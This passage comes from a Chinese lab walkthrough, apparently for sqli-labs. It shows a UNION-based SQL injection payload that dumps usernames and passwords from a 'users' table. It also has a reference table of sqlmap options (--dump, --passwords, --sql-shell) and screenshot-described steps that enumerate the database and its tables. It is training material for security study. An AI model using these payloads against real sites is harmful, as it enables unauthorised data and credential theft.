 ![image-20250826194456992](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250826194456992.png)



**第六步：**

通过上述操作可以得到两个敏感字段就是`username`和`password`，接下来我们就是要得到该字段对应的内容。加了一个`id`可以隔开账户和密码。

```mysql
?id=-1' union select 1,2,group_concat(username ,id , password) from users--+
```

![image-20250827002215340](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250827002215340.png)



#### 解法二：

我们使用sqlmap工具进行注入，简单的sqlmap工具用法如下：（强调的是常用的）

| 参数               | 用途                                                    |
| ------------------ | ------------------------------------------------------- |
| -a、--all          | 获取所有信息                                            |
| -b、--banner       | 获取数据库管理系统的标识                                |
| --current-user     | 获取数据库管理系统的当前用户                            |
| **--current-db**   | **获取数据库管理系统的当前数据库**                      |
| --hostname         | 获取数据库服务器的主机名称                              |
| --is-dba           | 检测DBMS（Database Management System）当前用户是否是DBA |
| --users            | 枚举数据库管理系统用户                                  |
| --passwords        | 枚举数据库管理系统用户密码的哈希                        |
| --privileges       | 枚举数据库管理系统用户的权限                            |
| --roles            | 枚举数据库管理系统用户的角色                            |
| --dbs              | 枚举数据库管理系统数据库                                |
| **--tables**       | **枚举DBMS数据库中的表**                                |
| **--columns**      | **枚举DBMS数据库表列**                                  |
| --schema           | 枚举数据库架构                                          |
| --count            | 检索表的项目数                                          |
| --dump             | 转储数据库表项                                          |
| --dump-all         | 传出数据库所有表项                                      |
| --search           | 搜索列、表和/或数据库名称                               |
| --comments         | 获取DBMS注释                                            |
| **-D DB**          | **指定要进行枚举的数据库名**                            |
| **-T TBL**         | **DBMS数据库表枚举**                                    |
| **-C COL**         | **DBMS数据库表列枚举**                                  |
| -X EXCLUDECOL      | DBMS数据库表不进行枚举                                  |
| -U USER            | 用来进行枚举的数据库用户                                |
| --exclude-sysdbs   | 枚举表时排除系统数据库                                  |
| --pivot-column     | 枢轴列名称                                              |
| --where=DUMPWHERE  | 使用where条件进行表存储                                 |
| --start=LIMITSTART | 获取第一个查询的输出数据位置                            |
| --stop=LIMITSTOP   | 获取最后一个查询的输出数据位置                          |
| --first=FIRSRCHAR  | 第一个查询输出的字符获取                                |
| --last=LASTCHAR    | 最后一个查询输出的字符获取                              |
| --sql-query=QUERY  | 要执行的SQL语句                                         |
| --sql-shell        | 提示交互式SQL的shell                                    |
| --sql-file=SQLFILE | 要执行的SQL文件                                         |

我们在kali中使用参数--current-db判断当前的数据库名称，如下图：

![image-20250830200014638](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250830200014638.png)

![image-20250830200027281](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250830200027281.png)

可以看到当前环境s所连接的数据库名称是secutity，接下来我们要猜测该数据库中的数据表的名称。根据之前的sqlmap参数用法，我们使用--tables参数，注入结果如下：

![image-20250830200448070](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250830200448070.png)

![image-20250830200505330](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250830200505330.png)

